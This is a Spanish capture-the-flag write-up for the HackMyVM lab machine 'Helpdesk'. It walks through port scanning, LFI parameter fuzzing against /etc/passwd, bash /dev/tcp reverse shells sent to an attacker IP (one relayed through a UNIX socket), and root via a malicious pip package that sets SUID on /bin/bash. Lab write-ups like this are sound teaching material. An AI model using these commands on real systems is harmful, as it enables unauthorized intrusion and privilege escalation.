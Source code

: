 # Helpdesk - Writeup HackMyVm

El día de hoy veremos cómo resolver la máquina **Helpdesk** de la
plataforma HackMyVm.\
Durante la explotación tocaremos las siguientes técnicas:

-   Escaneo de puertos
-   Enumeración de directorios
-   Fuzzing para descubrir un parámetro PHP
-   LFI (Local File Inclusion)
-   Abuso de sockets UNIX
-   Escalada de privilegios con `pip3`

------------------------------------------------------------------------

## Enumeración

Comenzamos con un escaneo de puertos con **nmap**:

``` bash
sudo nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.1.156
```

``` java
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b4:bc:42:f6:d0:a7:0d:fd:71:01:3d:8a:c5:0c:ac:e3 (ECDSA)
|_  256 71:90:08:58:14:04:09:d5:cf:31:ee:87:17:ad:29:8f (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: HelpDesk Ticket System

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el puerto 80 se muestra un sistema de HelpDesk muy limitado:

![alt text](./posts/img/helpdesk001.png)

Pasamos a enumerar directorios con **gobuster**:

``` bash
gobuster dir -u http://192.168.1.156/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html -t 20
```

Resultados interesantes:

    /login.php   (Status: 200)
    /ticket.php  (Status: 200)
    /panel.php   (Status: 302 -> login.php)
    /debug.php   (Status: 200)

En `/debug.php` aparecen credenciales falsas (honeypot).\
En `/ticket.php` solo aparece el texto *"Ticket Viewer"* vacío:

![alt text](./posts/img/helpdesk002.png)

Esto sugiere que el archivo podría aceptar parámetros. Probamos fuzzing
con **ffuf**:

``` bash
ffuf -u 'http://192.168.1.156/ticket.php?FUZZ=../../../../../../../../etc/passwd' -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 204
```

Encontramos un parámetro vulnerable a **LFI**:

![alt text](./posts/img/helpdesk003.png)

## Explotación

Explorando archivos del sistema vía LFI, en `login.php` encontramos
comentarios con credenciales en texto claro:

![alt text](./posts/img/helpdesk004.png)

Accedemos con ellas en `/login.php` y entramos a `/panel.php`, donde hay
ejecución de comandos:

![alt text](./posts/img/helpdesk005.png)

Nos enviamos una reverse shell:

``` bash
nc -lvnp 9001
```

``` bash
bash -i >& /dev/tcp/192.168.1.152/9001 0>&1
```

``` bash
Ncat: Connection from 192.168.1.156
www-data@helpdesk:/var/www/html$
```

## Escalada de privilegios

En `/opt` encontramos un servicio con **sockets UNIX**:

``` bash
www-data@helpdesk:/opt/helpdesk-socket$ ls -la
-rwxr-xr-x 1 helpdesk helpdesk  158 Aug 16 15:32 handler.sh
srwxrwxrwx 1 helpdesk helpdesk    0 Aug 24 17:38 helpdesk.sock
-rw-r--r-- 1 root     root      184 Aug 16 15:44 serve.sh
```

Podemos enviar comandos al socket con **socat**:

``` bash
echo "id" | socat - UNIX-CONNECT:/opt/helpdesk-socket/helpdesk.sock
```

``` bash
uid=1001(helpdesk) gid=1001(helpdesk) groups=1001(helpdesk)
```

Esto nos permite ejecutar comandos como **helpdesk**.\
Nos mandamos una shell como ese usuario:

``` bash
echo 'bash -i >& /dev/tcp/192.168.1.152/9001 0>&1' | socat - UNIX-CONNECT:/opt/helpdesk-socket/helpdesk.sock
```

``` bash
helpdesk@helpdesk:/$
```

Comprobamos permisos sudo:

``` bash
sudo -l
```

    User helpdesk may run the following commands on helpdesk:
        (ALL) NOPASSWD: /usr/bin/pip3 install --break-system-packages *

Podemos abusar de esto creando un paquete Python malicioso.

### Paquete Malicioso

En la máquina atacante:

``` bash
mkdir -p paquete_malicioso/paquete_malicioso
cd paquete_malicioso
```

``` python
echo 'import os; os.system("chmod +s /bin/bash")' > paquete_malicioso/__init__.py
```

``` python
echo "from setuptools import setup, find_packages; setup(name='paquete_malicioso', version='0.1.0', packages=find_packages())" > setup.py
```

``` bash
python3 setup.py sdist
python3 -m http.server 8000
```

En la víctima:

``` bash
wget http://192.168.1.152:8000/dist/paquete_malicioso-0.1.0.tar.gz
sudo /usr/bin/pip3 install --break-system-packages ./paquete_malicioso-0.1.0.tar.gz
```

Esto le da el bit SUID a `/bin/bash`.\
Ejecutamos:

``` bash
bash -p
```

¡Y somos root! 🎉